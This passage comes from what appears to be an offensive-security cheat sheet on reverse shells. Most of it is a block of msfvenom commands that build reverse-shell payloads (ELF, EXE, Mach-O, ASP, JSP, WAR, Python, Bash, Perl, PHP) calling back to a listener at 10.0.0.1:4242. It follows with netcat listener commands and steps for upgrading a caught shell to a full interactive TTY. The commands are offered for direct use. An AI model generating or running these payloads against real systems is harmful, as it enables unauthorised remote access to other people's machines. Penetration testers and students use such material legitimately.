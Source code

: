 ### Other platforms

```powershell
$ msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f elf > shell.elf
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f exe > shell.exe
$ msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f macho > shell.macho
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f war > shell.war
$ msfvenom -p cmd/unix/reverse_python LHOST="10.0.0.1" LPORT=4242 -f raw > shell.py
$ msfvenom -p cmd/unix/reverse_bash LHOST="10.0.0.1" LPORT=4242 -f raw > shell.sh
$ msfvenom -p cmd/unix/reverse_perl LHOST="10.0.0.1" LPORT=4242 -f raw > shell.pl
$ msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

## Spawn TTY Shell

In order to catch a shell, you need to listen on the desired port. `rlwrap` will enhance the shell, allowing you to clear the screen with `[CTRL] + [L]`.

```powershell
rlwrap nc 10.0.0.1 4242

rlwrap -r -f . nc 10.0.0.1 4242
-f . will make rlwrap use the current history file as a completion word list.
-r Put all words seen on in- and output on the completion list.
```

Sometimes, you want to access shortcuts, su, nano and autocomplete in a partially tty shell.

:warning: OhMyZSH might break this trick, a simple `sh` is recommended

> The main problem here is that zsh doesn't handle the stty command the same way bash or sh does. [...] stty raw -echo; fg[...] If you try to execute this as two separated commands, as soon as the prompt appear for you to execute the fg command, your -echo command already lost its effect

```powershell
ctrl+z
echo $TERM && tput lines && tput cols

# for bash
stty raw -echo
fg

# for zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```
